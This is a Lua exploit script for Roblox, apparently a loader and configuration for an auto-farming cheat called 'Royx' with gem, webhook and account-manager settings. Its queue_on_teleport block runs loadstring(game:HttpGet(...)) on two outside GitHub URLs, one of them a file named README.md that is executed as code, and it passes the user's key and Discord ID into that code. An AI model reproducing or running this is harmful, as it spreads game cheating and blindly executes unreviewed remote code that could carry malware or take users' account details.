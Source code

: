 _G.RoyxSpecialMode = "Hell Factory";
_G["External Config"] = {
    ["Kai Gems"] = true, -- true / false
    ["Kai Story"] = false, -- true / false
    ["Kai Battle Pass"] = false, -- true / false
    ["Kai Infinity Castle"] = false, -- true / false
    ["Auto Set Resource"] = true, -- true / false
    ["Select End Game Mode"] = "Instant Leave", -- "Instant Leave" / "Auto Sell"
    ["End Wave"] = 10, -- number
    ["Maximum Added Gems"] = 60000, -- number
    ["Close Roblox When Maximum Added Gems"] = false, -- true / false
    ["Using Limit Farming"] = true, -- true / false
    ["Stop Farming When The Limit Is Reached"] = false, -- true / false
    ["Send Webhook When The Limit Is Reached"] = false, -- true / false
    ["Webhook Url"] = "", -- string
    ["RAM Port"] = "7963", -- string
    ["RAM Password"] = "", -- string
    ["RAM Private Server Url"] = "", -- string
    ["RAM Auto Description"] = true, -- true / false
    ["RAM Auto Private Server"] = false, -- true / false
    ["RAM Auto Exit"] = false, -- true / false
    ["Fps Limit"] = 15, -- number
    ["Lock Fps"] = true, -- true / false
    ["Release Fps When Rejoin"] = false, -- true / false
    ["Select Unit"] = {"Slot 1", "Slot 2", "Slot 3"}, -- table  {"Slot 1", "Slot 2", "Slot 3", "Slot 4", "Slot 5", "Slot 6"}
};
local Key = _G.Key
local DiscordId = _G.DiscordId

queue_on_teleport(string.format([[

    _G.Key = "%s"
    _G.DiscordId = "%s"
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/toohot123/Roblox1/main/README.md"))()
]], Key, DiscordId))

-- loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()

print("Executed!");
